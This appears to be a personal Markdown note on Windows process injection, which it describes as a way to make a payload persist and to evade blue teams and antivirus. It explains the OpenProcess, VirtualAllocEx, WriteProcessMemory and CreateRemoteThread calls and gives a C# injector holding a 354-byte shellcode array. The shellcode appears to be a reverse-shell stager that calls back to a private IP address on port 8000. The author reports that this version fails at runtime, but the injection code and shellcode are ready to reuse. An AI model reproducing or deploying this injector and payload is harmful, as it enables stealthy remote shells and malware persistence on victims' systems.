 # Process Injection/Migration

We need this to make sure our payload persists even after the application is closed. This helps avoid creating new process which might be caught by blue-team and sometimes can help bypass AV also. 

So some potential candidates are 
- Explorer.exe which host's user desktop exprience
- Any hidden spawn process
- svchost.exe responsible for network communication


Each windows process maintains its own stack and virtual memory.

To perform process injection we get a handle for target process using `OpenProcess` and then modify its memory space via `VirtualAllocEx` and create a new thread for executing it via `CreateRemoteThread`


## `OpenProcess`

Needs three paramter and first one is `dwDesiredAccess` which is basically strcuture of access right.

- All process have integrity level and you cant access high integrity process via low integrity but vice versa is possible.
- Every process has SecurityDescriptor that tells the file permission and access right of current user who created the process

The second parameter `bInheritHandle` determines if returned handle can be inherrited by child process. And final parameter `dwProcessId` specifies the PID of target process.

## `VirtualAllocEx`

Can perform memory allocation for remote process with valid process handle while `VirtualAlloc` will allocate memory only for current process.

## `WriteProcessMemory`

Allows to write data to memory of remote process. Think of it as copying shellcode to above allocated memory.

## `CreateRemoteThread`

Helps to create thread in remote process unlike `CreateThread` which only works for current process.

A failed code for Process Ijection 
```c#
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll")]
    static extern IntPtr OpenProcess(UInt64 dwDesiredAccess, bool bInheritHandle, UInt64 dwProcessId);

    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, UInt64 dwSize, UInt64 flAllocationType, UInt64 flProtect);

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, UInt64 nSize, IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttribute, UInt64 dwSize, IntPtr lpStartAddress, IntPtr lpParameter, UInt64 dwCreationFlags, IntPtr lpThreadId);

    private static uint MEM_COMMIT = 0x3000;
    private static uint READ_WRITE = 0x40;
    static void Main(string[] args)
    {
        byte[] shellcode = new byte[354] {
        0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,
        0x8b,0x52,0x0c,0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,
        0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0x49,
        0x75,0xef,0x52,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x57,0x01,0xd0,0x8b,0x40,0x78,
        0x85,0xc0,0x74,0x4c,0x01,0xd0,0x8b,0x58,0x20,0x8b,0x48,0x18,0x01,0xd3,0x50,
        0x85,0xc9,0x74,0x3c,0x31,0xff,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xc1,
        0xcf,0x0d,0xac,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,
        0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,
        0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,
        0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
        0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,
        0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,
        0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0x7a,0x01,0x68,0x02,
        0x00,0x1f,0x40,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,
        0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,
        0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,
        0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,
        0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,
        0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,
        0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,
        0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,
        0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,
        0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,
        0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };


        IntPtr Process_handle = OpenProcess(0x001F0FFF, false, 4156);
        IntPtr addr = VirtualAllocEx(Process_handle, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        WriteProcessMemory(Process_handle, addr, shellcode, (UInt64)shellcode.Length, IntPtr.Zero);
        CreateRemoteThread(Process_handle, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
    }
}
```
Its basically showing Runtime error where addr points to 0x0000000000000000 and that causes program to exit without giving out shell. 
